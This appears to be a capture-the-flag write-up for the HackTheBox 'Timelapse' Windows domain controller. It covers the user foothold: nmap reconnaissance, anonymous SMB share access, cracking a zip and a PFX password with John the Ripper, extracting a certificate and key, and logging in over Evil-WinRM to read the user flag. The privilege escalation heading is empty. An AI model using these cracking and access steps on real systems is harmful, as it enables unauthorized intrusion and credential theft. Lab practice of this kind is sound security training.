 ```
Nmap scan report for 10.10.11.152
Host is up (0.034s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2025-09-10 22:08:40Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
5986/tcp  open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf            .NET Message Framing
49667/tcp open  msrpc             Microsoft Windows RPC
49673/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc             Microsoft Windows RPC
49693/tcp open  msrpc             Microsoft Windows RPC
49721/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

lets dig deeper:
```
sudo nmap -sS -sV -sC -p 53,88,135,139,389,445,464,593,636,3268,3269,5986,9389,49667,49673,49674,49693,49721 10.10.11.152

Nmap scan report for 10.10.11.152
Host is up (0.028s latency).

PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2025-09-11 08:18:41Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
5986/tcp  open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| tls-alpn: 
|_  http/1.1
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
|_ssl-date: 2025-09-11T08:20:11+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
9389/tcp  open  mc-nmf            .NET Message Framing
49667/tcp open  msrpc             Microsoft Windows RPC
49673/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc             Microsoft Windows RPC
49693/tcp open  msrpc             Microsoft Windows RPC
49721/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 7h59m59s, deviation: 0s, median: 7h59m59s
| smb2-time: 
|   date: 2025-09-11T08:19:32
|_  start_date: N/A
```
`dc01.timelapse.htb`
and
`timelapse.htb`
cool
also can see smb on port 445, lets look further into that:
```
smbclient -N -L //10.10.11.152//                                                                                        
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Shares          Disk      
	SYSVOL          Disk      Logon server share 
```

cool lets also try:
```
smbclient -N //10.10.11.152/Shares
```
```
smb: \> ls
  .                                   D        0  Mon Oct 25 11:39:15 2021
  ..                                  D        0  Mon Oct 25 11:39:15 2021
  Dev                                 D        0  Mon Oct 25 15:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 11:48:42 2021
```

alright!
Lets take a peek in here....
grabbed all files:
```
helpdesk:
 LAPS.x64.msi                        A  1118208  Mon Oct 25 10:57:50 2021
  LAPS_Datasheet.docx                 A   104422  Mon Oct 25 10:57:46 2021
  LAPS_OperationsGuide.docx           A   641378  Mon Oct 25 10:57:40 2021
  LAPS_TechnicalSpecification.docx      A    72683  Mon Oct 25 10:57:44 2021

Dev:
winrm_backup.zip 
```


```
unzip winrm_backup.zip 
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
```
googled about how to crack this zip file: `https://www.esecurityplanet.com/products/john-the-ripper/`
ill run:
```
zip2john winrm_backup.zip > hash.txt
and get:
cat hash.txt             
winrm_backup.zip/legacyy_dev_auth.pfx:$pkzip$1*1*2*0*965*9fb*12ec5683*0*4e*8*965*72aa*1a84b40ec6b5c20abd7d695aa16d8c88a3cec7243acf179b842f2d96414d306fd67f0bb6abd97366b7aaea736a0cda557a1d82727976b2243d1d9a4032d625b7e40325220b35bae73a3d11f4e82a408cb00986825f936ce33ac06419899194de4b54c9258cd7a4a7f03ab181b611a63bc9c26305fa1cbe6855e8f9e80c058a723c396d400b707c558460db8ed6247c7a727d24cd0c7e93fbcbe8a476f4c0e57db890a78a5f61d1ec1c9a7b28b98a81ba94a7b3a600498745859445ddaef51a982ae22577a385700fdf73c99993695b8ffce0ef90633e3d18bf17b357df58ea7f3d79f22a790606b69aed500db976ae87081c68d60aca373
...
```
lets crack this sucker!
```
john --wordlist=/usr/share/wordlists/rockyou.txt --format=pkzip hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
...
```
`supremelegacy`

Now:
```
unzip winrm_backup.zip
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
  inflating: legacyy_dev_auth.pfx   
```

A .pfx file, also known as a [PKCS#12 file](https://www.google.com/search?sca_esv=e20ef5b3db63d22c&cs=1&sxsrf=AE3TifOqDK3brkbhsGYbkKWVrPJSljhR6Q%3A1757551664356&q=PKCS%2312+file&sa=X&ved=2ahUKEwjcxtCUvs-PAxViEFkFHWLsMU8QxccNegQIAhAB&mstk=AUtExfCUq0_rKK47MeRU0CgKvZE8ognXX6xAiJrdoRgQTxXGUubZVwUdY98-N_ITTifTTN22JmMuhGJVjgvB3OUvyQz8dNXxWGJisUaOmL1g2wNq_J6KZ3YZcQZ6YGwe6aFrzn4ijLtGxFInYhf1osmEMw8k_eX7SqbexFuFzhRRUN4ng94&csui=3), is a binary format that securely stores a digital certificate, its corresponding private key, and any necessary intermediate certificates all in one file.

```
openssl rsa -in legacyy_dev_auth.pfx -check 
Enter pass phrase for PKCS12 import pass phrase:
Could not find private key from legacyy_dev_auth.pfx
4087EC09417F0000:error:16000071:STORE routines:try_pkcs12:error verifying pkcs12 mac:../crypto/store/store_result.c:594:empty password
```

We can use `pfx2john` to get another hash now...:
```
 pfx2john legacyy_dev_auth.pfx > legacy.hash
 
 legacyy_dev_auth.pfx:$pfxng$1$20$2000$20$eb755568327396de179c4a5d668ba8fe550ae18a$3082099c3082060f06092a864886f70d010701a0820600048205fc308205f8308205f4060b2a864886f70d010c0a0102a08204fe308204fa301c060a2a864886f70d010c0103300e04084408e3852b96a898020207
 ...
```

again lets crack:
```
john --wordlist=/usr/share/wordlists/rockyou.txt --format=pfx legacy.hash 

Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
```
`thuglegacy`

now we can extract key and cert:
```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -nodes -out key.pem
AND
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.pem
```
nice password worked and i got key and cert.pem files!

```
evil-winrm -S -i 10.10.11.152 -p 5986 -c cert.pem -k key.pem -u legacyy_dev
```
-S = tells Evil-WinRM to use **SSL/TLS (HTTPS)** instead of HTTP

because of our nmap scan as you can see the winrm port is on 5986 which if you google means it is just over https instead of http which if it were http the default port is 5985 :)

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> cat ../Desktop/user.txt
68e304f9e8d2***********
```

User PWNED!

---

### Priv Esc
